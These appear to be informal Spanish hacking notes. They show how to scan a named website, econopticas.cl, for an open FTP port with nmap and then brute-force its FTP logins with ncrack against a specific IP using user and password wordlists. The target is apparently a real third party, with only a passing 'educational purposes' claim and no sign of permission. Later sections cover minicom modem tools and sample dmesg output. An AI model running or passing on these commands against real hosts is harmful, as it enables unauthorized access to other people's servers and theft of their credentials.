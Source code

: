 usaremos `econopticas.cl` para propositos educativos, si puedo agregar una nueva ruta me doy por satisfecho.

en primer lugar es conveniente ver si el servicio ftp esta up y si el puerto esta abierto:
```
nmap -sV econopticas.cl -p 21
```
de aqui en adelante usaremos la direccion ip del sitio y no su dominio.

```
# para correr hartas claves
sudo apt-get install ncrack
```

para usarlo necesitamos dos archivos de texto, uno con los usuarios y otro con las contraseñas. de esa forma podemos probar muchas claves, el uso es muy sencillo:
```
ncrack -U user.txt -P pass.txt ftp://68.66.210.147
```

[fuente](https://null-byte.wonderhowto.com/how-to/brute-force-ftp-credentials-get-server-access-0208763/)


 # entradas telefonicas:

 ## minicom + lrzsz
minicom es un programa de modem basado en texto, lrzsz es una implementacion del protocolo x/y/zmodem.
```
sudo apt-get install minicom lrzsz
```
[la unica fuente que pille](https://inetdoc.net/articles/devmgmt/devmgmt.minicom.html)
 ## dmesg (diagnostic message)
es una instruccion de los UNIX que lista el buffer de mensajes del pulento kernel.

```
[    0.281857] tcp_listen_portaddr_hash hash table entries: 4096 (order: 4, 65536 bytes, linear)
[    0.281922] TCP established hash table entries: 65536 (order: 7, 524288 bytes, linear)
[    0.282115] TCP bind hash table entries: 65536 (order: 8, 1048576 bytes, linear)
[    0.282208] TCP: Hash tables configured (established 65536 bind 65536)
[    0.282254] UDP hash table entries: 4096 (order: 5, 131072 bytes, linear)
[    0.282284] UDP-Lite hash table entries: 4096 (order: 5, 131072 bytes, linear)
[    0.282380] NET: Registered protocol family 1
[    0.282386] NET: Registered protocol family 44
```
